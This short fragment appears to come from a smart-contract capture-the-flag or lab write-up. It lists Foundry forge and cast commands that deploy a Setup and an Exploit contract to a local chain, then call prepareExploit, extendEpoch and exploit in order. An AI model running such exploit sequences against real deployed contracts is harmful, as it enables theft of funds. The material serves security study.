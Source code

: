 forge create src/Setup.sol:Setup --rpc-url local --account local --broadcast
forge create src/Exploit.sol:Exploit --rpc-url local --account local --broadcast --constructor-args 0x5FbDB2315678afecb367f032d93F642f64180aa3


cast send 0xe7f1725E7734CE288F8367e1Bb143E90bb3F0512 --rpc-url local --account local "prepareExploit()"
cast send 0xe7f1725E7734CE288F8367e1Bb143E90bb3F0512 --rpc-url local --account local "extendEpoch()"
cast send 0xe7f1725E7734CE288F8367e1Bb143E90bb3F0512 --rpc-url local --account local "exploit()"


forge script script/Exploit.sol:Exploit --rpc-url local